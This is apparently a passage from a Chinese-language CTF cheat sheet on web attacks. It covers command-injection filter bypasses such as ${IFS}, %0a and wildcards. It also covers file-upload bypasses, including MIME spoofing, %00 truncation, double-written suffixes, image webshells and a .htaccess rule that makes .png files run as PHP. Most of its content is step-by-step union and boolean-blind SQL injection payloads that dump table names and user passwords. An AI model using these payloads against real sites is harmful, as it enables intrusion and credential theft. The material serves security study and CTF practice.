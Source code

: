 3. 命令过滤
- 可以使用less、more、tail等命令来代替cat
- 使用`${IFS}`代替空格
- 没有`; | &`我们就不能执行多行命令,可以用`%0a`代替
- 单词被过滤可使用通配符: flag改为f*或f???
### 文件上传
1. 后缀检查
- 前端验证: 禁用js即可
- MIME绕过: bp抓包,修改`Content-Type:`为`image/png`
- 00截断: bp抓包,修改文件名为`c.php%00.png`,修改url为`?road=/var/www/html/upload/c.php%00`   
低版本php会忽略`%00`后的内容
- 双写后缀: bp抓包,修改文件名为`c.pphphp`  
删去一个`php`后剩下的字符又组合出了`php`
2. 图片马  
图片有两个注意点: 成功上传和正常解析
- 文件头检查: 修改图片马`mm.png`文件名为`mm.php`
- .htaccess
先上传一个内容为`AddType application/x-httpd-php .png`的`.htaccess`文件   
作用是把`.png`文件解析为`.php`来执行
### SQL注入
#### 有回显位->联合注入:
```sql
?id=1 order by 3--+查看表格一共有几列,逐渐增加3的大小直到报错
?id=-1 union select 1,2,3--+查看表格的哪几列会在页面显示
?id=-1 union select 1,database(),version() --+database查询库名,version查询表名
?id=-1 union select 1,2,group_concat(table_name) from information_schema.tables where table_schema='security'--+security为目标库名,查询出的内容为security库下的所有表名
?id=-1 union select 1,2,group_concat(column_name) from information_schema.columns where table_name='users'--+user为目标表名,查询出的内容为user表下的所有字段名
?id=-1 union select 1,2,group_concat(username ,id , password) from users--+user为目标表名,username id password为其下的目标字段名,查询结果为字段下的实际内容。这里加id是因为查询出的username和password无间隔,不好区分
```

#### 回显没有数据,只显示对错->布尔盲注:
布尔盲注主要用到length(),ascii() ,substr()这三个函数,首先通过length()函数确定长度再通过另外两个确定具体字符是什么。布尔盲注向对于联合注入来说需要花费大量时间。  
>ascii码尝试范围32~127
```sql
?id=1''and length((select database()))>9--+  
--+大于号可以换成小于号或者等于号，主要是判断数据库的长度。lenfth()是获取当前数据库名的长度。如果数据库是haha那么length()就是4
?id=1''and ascii(substr((select database()),1,1))=115--+
--+substr("78909",1,1)=7 substr(a,b,c)a是要截取的字符串，b是截取的位置，c是截取的长度。布尔盲注我们都是长度为1因为我们要一个个判断字符。ascii()是将截取的字符转换成对应的ascii吗，这样我们可以很好确定数字根据数字找到对应的字符。
 
?id=1''and length((select group_concat(table_name) from information_schema.tables where table_schema=database()))>13--+
--+判断所有表名字符长度。
?id=1''and ascii(substr((select group_concat(table_name) from information_schema.tables where table_schema=database()),1,1))>99--+
--+逐一判断表名
 
?id=1''and length((select group_concat(column_name) from information_schema.columns where table_schema=database() and table_name='users'))>20--+
--+判断所有字段名的长度
?id=1''and ascii(substr((select group_concat(column_name) from information_schema.columns where table_schema=database() and table_name='users'),1,1))>99--+
--+逐一判断字段名。
 

?id=1'' and length((select group_concat(username,password) from users))>109--+
--+判断字段内容长度
?id=1'' and ascii(substr((select group_concat(username,password) from users),1,1))>50--+
--+逐一检测内容。
```